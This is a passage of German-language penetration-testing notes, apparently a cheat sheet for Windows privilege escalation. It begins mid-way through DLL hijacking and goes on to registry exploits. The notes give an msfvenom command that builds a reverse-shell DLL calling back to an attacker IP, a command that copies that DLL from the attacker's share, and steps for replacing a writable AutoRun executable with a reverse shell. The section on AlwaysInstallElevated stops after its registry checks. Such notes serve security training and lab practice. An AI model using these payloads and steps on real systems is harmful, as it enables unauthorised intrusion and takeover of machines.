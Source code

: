 Irgendwann sucht Windows in einem Pfad, der beschreibbar ist (zB C:\temp).

Nun dll mit msfvenom erstellen:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.225 LPORT=53 -f dll -o /hijackme.dll
```

Das File nun in C:\temp kopieren (z.B. mit:

```bash
copy \\192.168.119.225\tools\hijackme.dll C:\temp
```

Service neustarten, done!

## Registry Exploits

#### AutoRuns

Interessant bei commands, welche zum Systemstart mit elevated Privileges ausgeführt werden. AutoRuns sind in der Registry konfiguriert. Wenn man ein AutoRun Executable modifizieren kann und das System neustarten darf, könnten Priviliges elevated werden.

```bash
#winPEAS mit Parameter starten
winPEASany.exe quiet applicationsinfo
#Nach Autorun Applications schauen, welche FilePerms: Everyone [nach AllAccess schauen] besitzen

#Alernative, Autorun Applications ansehen
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
#Permissions für Executable ansehen
accesschk.exe /accepteula -wvu "C:\PathToExecutable\program.exe"
```

<img src="https://user-images.githubusercontent.com/33549572/88439491-ad8ecb00-ce0b-11ea-8fcb-a0db554b744b.png" alt="image-20200724140604657" style="zoom:67%;" />

Nun einfach das Executable ersetzen und Listener starten..

```bash
#Backup anlegen
copy "C:\PathToExecutable\filepermservice.exe" C:\temp
#Durch Reverse Shell ersetzen
copy /Y c:\reverse.exe "C:\PathToExecutable\filepermservice.exe"
#Windows neustarten (Windows 10 scheint den zuletzt angemeldeten Benutzer zu nutzen.......)
```

#### AlwaysInstallElevated

MSI Files werden für Installationen genutzt, welche u.U. mit elevated Privileges durchgeführt werden können. In diesem Fall könnte ein MSI File erstellt werden, welches eine Reverse Shell enthält.

**Funktioniert jedoch nur, wenn zwei bestimmte Registry Keys gesetzt sind!**

Entweder mit winPEAS oder manuell:

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
